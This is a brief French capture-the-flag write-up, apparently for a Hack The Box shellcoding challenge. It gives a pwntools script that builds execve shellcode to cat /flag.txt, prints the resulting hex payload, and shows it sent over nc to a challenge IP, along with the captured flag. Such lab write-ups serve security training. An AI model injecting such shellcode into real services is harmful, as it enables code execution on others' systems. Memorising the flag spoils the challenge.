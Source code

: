 
### Question Shellcoding Tools

##### Code pour générer le shellcode via le syscall execve

- generate_shellcode.py
```python
#!/bin/python3

from pwn import *
context(os="linux", arch="amd64", log_level="error")
path = '/bin/cat'
argv = ['/bin/cat', '/flag.txt']
sc = shellcraft.amd64.linux.execve(path, argv)
print(asm(sc).hex())
```

##### Lancer le code

`python3 generate_shellcode.py`

>6a01fe0c2448b82f62696e2f636174504889e768797501018134240101010148b801010101010101015048b8012e676d60662f754831042448b82f62696e2f6361745031f6566a115e4801e6566a105e4801e6564889e631d26a3b580f05

##### Se connecter et injecter le shellcode

nc 94.237.55.163 30727

6a01fe0c2448b82f62696e2f636174504889e768797501018134240101010148b801010101010101015048b8012e676d60662f754831042448b82f62696e2f6361745031f6566a115e4801e6566a105e4801e6564889e631d26a3b580f05

>HTB{r3m073_5h3llc0d3_3x3cu710n}